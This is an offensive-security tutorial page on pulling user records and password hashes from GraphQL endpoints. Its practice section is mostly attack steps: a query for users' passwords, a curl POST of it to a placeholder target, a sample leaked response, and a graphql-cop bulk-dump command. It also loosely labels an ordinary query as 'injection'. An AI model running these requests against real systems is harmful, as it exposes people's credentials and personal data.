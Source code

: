 ```yaml
---
title: Extract Data via GraphQL Injection Techniques
description: Learn methods to extract data using GraphQL injection, including manual
  and automated approaches for effective data retrieval.
keywords:
- GraphQL Injection
- data extraction
- bulk data retrieval
- sensitive data exposure
- query manipulation
- automated data scraping
- injection vulnerability
- GraphQL queries
---
```


# Extract Data

## Context

In this article, we will explore how to extract sensitive or bulk data from a GraphQL endpoint through injection techniques. This guide assumes you have a working knowledge of GraphQL schema, GraphQL queries, HTTP requests, and are familiar with GraphQL Injection techniques.

## Theory

### GraphQL Query Structure for Data Extraction

GraphQL queries are designed to specify precisely which fields and objects should be fetched from the backend. Attackers can exploit these queries to enumerate and extract sensitive data if the input received by the GraphQL API is unsanitized. Injection points within the queries allow for arbitrary query manipulation, enabling unauthorized data access and extraction.

### Sensitive Data Exposure via GraphQL Injection

When exploiting GraphQL injection for sensitive data exposure, the process typically involves identifying an injectable parameter, injecting a crafted query, and receiving sensitive data in the response. A notable risk here is the lack of field-level access controls, which increases the chance for mass data exposure.

### Bulk Data Retrieval Techniques

Bulk data extraction generally involves querying substantial datasets or multiple objects with a single request. Attackers can leverage wildcards or enumerate fields to maximize the amount of data returned in one query. By exploiting these techniques, extensive data can be extracted efficiently.

## Practice

### Manual Extraction of Data via GraphQL Injection

- **Identify a vulnerable parameter:**
  Look for user-controllable fields in the GraphQL query or its variables that could be vulnerable to injection.

- **Craft a query to extract sensitive fields:**
  ```graphql
  {
      users {
          id
          username
          email
          password
      }
  }
  ```

- **Send the query to the GraphQL endpoint:**
  Use a command to inject this query into a potentially vulnerable point.
  ```bash
  curl -X POST https://target/graphql \
      -H 'Content-Type: application/json' \
      --data '{"query": "{ users { id username email password } }"}'
  ```

- **Observe the response:**
  Analyze the output for extracted sensitive data.
  ```json
  {
      "data": {
          "users": [
              {
                  "id": "1",
                  "username": "admin",
                  "email": "admin@example.com",
                  "password": "$2y$10$..."
              }
          ]
      }
  }
  ```

### Automated Data Dump Using GraphQL Enumeration Tools

- **Use a tool for automated extraction:**
  Leverage a tool that automates query crafting and parsing of responses to enumerate and extract all accessible data via injection. 

- **Run an enumeration tool:**
  Execute GraphQL Cop or similar tool to dump all accessible data. Replace `https://target/graphql` with your target endpoint.
  ```bash
  python3 graphql-cop.py -u https://target/graphql --dump-all
  ```

- **Review the output:**
  The tool should output bulk data retrieved from the endpoint.
  ```text
  [*] Dumped 1000 user records from 'users' object.
  ```

## Tools

- **graphql-cop**
- **curl** 

By utilizing these techniques and tools, practitioners can extract sensitive and bulk data from GraphQL APIs effectively, highlighting the importance of secure coding practices and input validation to thwart potential attacks.